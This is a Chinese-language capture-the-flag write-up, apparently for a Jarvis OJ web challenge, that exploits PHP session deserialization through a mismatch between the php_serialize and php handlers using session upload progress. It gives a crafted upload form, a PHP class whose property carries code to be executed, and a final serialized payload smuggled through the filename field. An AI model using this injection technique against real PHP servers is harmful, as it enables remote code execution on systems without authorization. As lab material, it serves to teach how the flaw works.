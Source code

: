 先来看一看phpinfo里的内容 php版本：5.6.21
**php大于5.5.4的版本中默认使用php_serialize规则**

![null](1545273945027.png)

默认为php_serialize而index.php中又使用了php，反序列化和序列化使用的处理器不同，由于格式的原因会导致数据无法正确反序列化，那么就可以通过构造伪造任意数据。

![null](1545274357328.png)

> PHP手册
> Session 上传进度
> 当 session.upload_progress.enabled INI 选项开启时，PHP 能够在每一个文件上传时监测上传进度。 这个信息对上传请求自身并没有什么帮助，但在文件上传时应用可以发送一个POST请求到终端（例如通过XHR）来检查这个状态
> 当一个上传在处理中，同时POST一个与INI中设置的session.upload_progress.name同名变量时，上传进度可以在\$_SESSION中获得。 当PHP检测到这种POST请求时，它会在$_SESSION中添加一组数据, 索引是 session.upload_progress.prefix 与 session.upload_progress.name连接在一起的值。

了解了之后，就可以通过POST方法来构造数据传入`$_SESSION`
构造POST提交表单

```plaintext
<form action="http://web.jarvisoj.com:32784/index.php" method="POST" enctype="multipart/form-data">
    <input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value="123" />
    <input type="file" name="file" />
    <input type="submit" />
</form>
```

构造序列化字符串

```plaintext
<?php
class OowoO
{
    public $mdzz='print_r(dirname(__FILE__));';
}
$obj = new OowoO();
$a = serialize($obj);

var_dump($a);
```

注意需要转义，抓包吧filename改为payload
最终提交为：`|O:5:\"OowoO\":1:{s:4:\"mdzz\";s:27:\"print_r(dirname(__FILE__));\";}`
